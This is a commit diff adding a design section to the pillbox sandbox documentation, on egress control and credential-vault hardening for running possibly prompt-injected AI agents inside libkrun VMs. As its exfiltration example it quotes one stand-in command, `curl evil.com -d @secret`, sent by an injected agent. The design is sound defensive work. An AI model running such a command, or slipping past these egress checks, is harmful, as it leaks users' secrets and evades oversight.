

Before and after one commit to vu1n/pillbox, a Markdown page: docs/libkrun-sandbox.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs(libkrun): step 5 design — egress + vault v2 over smoltcp
The novel step gets a design before a spike (it's not a port like 3/4). Pins the
networking decision (boot on TSI; switch to virtio-net + smoltcp for egress,
because every vault-v2 control lives at the userspace termination point), the
three egress tiers (MITM provider hosts / TCP pass-through allowlisted hosts /
default-deny RST everything else), and the two hardening gates v2 adds over
today's blind host-keyed swap: default-deny allowlist (also the prerequisite for
cross-user pooling) + destination-verified credential release (real key injected
only after pillbox's own upstream TLS verifies the cert for the allowlisted
host). Today's VaultProvider stack is hyper-level and re-hosts on smoltcp
unchanged — only its substrate moves. Defines the proof-first spike + egress
profiles (locked/standard/permissive, untrusted repo can't widen).

```diff
--- a/docs/libkrun-sandbox.md
+++ b/docs/libkrun-sandbox.md
@@ -222,3 +222,81 @@ architecture diagram calls for, now proven to coexist on libkrun.
   `SessionLog` (seq + notify-follow already built, transport-agnostic); the guest
   half is the event mapper (`drain_sse` / transcript tailer) feeding this port.
 
+## Egress + vault v2 (step 5 — design)
+
+This is the **novel** step — not a port of existing logic like 3/4, and the one
+that makes the pitch's first word (*secure* — safe to run a prompt-injected
+agent) real beyond VM isolation. It's the hardest piece in the plan, so it gets
+a design before a spike.
+
+### The networking decision: boot on TSI, egress on virtio-net + smoltcp
+
+libkrun offers two ways to give the guest a network:
+
+- **TSI** (Transparent Socket Impersonation) — libkrun proxies the guest's
+  socket syscalls through the *host kernel's* sockets. Zero-config, simplest
+  boot. But the host kernel makes the real connections, so pillbox gets **no
+  userspace termination point it controls** — nowhere to gate, MITM, or measure.
+  Fine for "just give it internet"; useless for vault v2.
+- **virtio-net + a host-side userspace TCP stack ([smoltcp](https://github.com/smoltcp-rs/smoltcp))**
+  — the guest sees a real NIC; its packets land in a stack **pillbox owns and
+  terminates in userspace**. That termination point is the single control plane
+  for all three priorities (gate, vault, telemetry). This is microsandbox's model.
+
+**Decision:** boot on TSI (steps 1–4 don't need egress); switch to
+virtio-net + smoltcp *in this step*, because every vault-v2 control lives at
+that userspace termination point. Egress is the reason to own the stack.
+
+### Three egress tiers at the termination point
+
+Every guest-initiated connection hits the smoltcp stack; pillbox reads the TLS
+**ClientHello SNI** at connect time and routes to one of three tiers:
+
+1. **Provider host** (`api.anthropic.com`, `api.openai.com`, `github.com` for the
+   token, …) → **MITM-terminate** with the per-pillbox CA (guest already trusts
+   it), hand the plaintext `Request`/`Response` to **today's `VaultProvider`
+   stack unchanged** (stub→real out, real→stub in, rotate-token persist), and
+   emit gen_ai/usage telemetry. The provider logic is hyper-level and survives
+   the pivot verbatim — only its *substrate* moves (sidecar + `HTTPS_PROXY` →
+   smoltcp).
+2. **Allowlisted non-provider host** (per profile: package registries, git
+   hosts, …) → **TCP pass-through**, no MITM (no credential to swap, so no cert
+   trust needed — the guest sees the real upstream cert). Allowed, but only SNI/
+   byte-count telemetry, never plaintext.
+3. **Everything else** → **default-deny**: RST at connect. This is the
+   exfiltration guard today's proxy lacks (`vault/server.rs` passes unmatched
+   hosts through unmodified). An injected agent's `curl evil.com -d @secret`
+   never opens a socket.
+
+### The two hardening gates v2 adds over today's blind swap
+
+Today's swap is keyed on the *claimed* host and releases the real credential to
+whatever that host resolves to. v2 adds:
+
+- **Default-deny allowlist** (tier 3 above) — egress is closed by default; the
+  agent reaches only what the profile permits. This is also the **prerequisite
+  for cross-user pooling**: the [swarm-memory](./swarm-memory.md) scrub is
+  zero-false-negative only when *all* egress is inspected, which only holds once
+  unmatched hosts can't slip out (see [security.md](./security.md)).
+- **Destination-verified credential release** — the real key is injected only
+  after pillbox's *own* outbound TLS connection to the upstream verifies the
+  cert chains to the real CA for the allowlisted host. Binds the credential to a
+  **proven** destination, defeating DNS spoofing / a hijacked `api.anthropic.com`
+  / a malicious upstream. Today's MITM trusts the system roots implicitly; v2
+  makes destination-pinning an explicit precondition of release.
+
+### Egress profiles (from brood-box)
+
+Orthogonal UX over the allowlist; the secret-file exclusion (step 6) is the
+filesystem sibling, kept separate.
+
+- **`locked`** — allowlist = provider hosts only. The agent can authenticate and
+  nothing else. Maximum safety for fully-untrusted code.
+- **`standard`** (default) — providers + a curated dev allowlist (git hosts,
+  common package registries).
+- **`permissive`** — all egress allowed, but provider hosts are *still*
+  MITM+swapped (≈ today's posture). For code you trust.
+
+An untrusted repo **cannot widen** its own profile (brood-box's non-negotiable
+rule) — the profile is set by the invoker, not the workspace.
+
```
Also changed, not shown: other parts of docs/libkrun-sandbox.md (+17 -2 lines).
